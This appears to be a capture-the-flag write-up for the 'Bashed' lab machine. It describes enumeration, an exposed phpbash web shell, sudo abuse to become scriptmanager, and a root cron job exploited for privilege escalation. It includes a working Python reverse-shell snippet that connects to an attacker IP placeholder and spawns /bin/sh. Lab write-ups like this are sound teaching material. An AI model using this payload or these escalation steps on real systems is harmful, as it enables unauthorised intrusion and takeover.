









Bashed
================



Solution
==============

User
---------
First, like always, we do a nmap scan and discovered port 80 is open.
Navigating to the website, we got a simple webpage showing something about phpbash



Phpbash is particularly interesting because it looks like we're given a free shell via that application.
Now we do a directory enumeration using dirbuster.



We got a directory `/dev/phpbash.php` ! Navigating to that directory, we got the phpbash application running right there.



Looks like we can already read the user flag...



`user

Root
------------
Let's see if we can escalate our privilege using `sudo su`



No we can't, but we can sudo as scriptmanager as seen in the screenshot.

Grab a python reverse shell from https://highon.coffee/blog/reverse-shell-cheat-sheet/ and we can spawn a reverse shell.

````
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKING-IP",80))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
Now we can `sudo -u scriptmanager /bin/bash` to obtain bash shell, we've escalated from www-data to scriptmanager!

From here I did a lot of enumeration to find out what's going on, and finally ended up with something interesting:



We can see a cron job runnning, but we were unable to view the content of the cron job just yet.

However, there's another interesting directory sitting right at `/` and that's the `/scripts` directory

We can see the content of that directory:



From here we can see that `test.py` is opening up a new file `test.txt` and writing something to it.

What's interesting is that the `test.txt` file belongs to root! It looks like the script is being executed as root privilege!

Now we could use that script to gain a reverse shell



And there is our root flag!

Well just out of interest we could see the cron jobs being run is basically every script inside the scripts directory


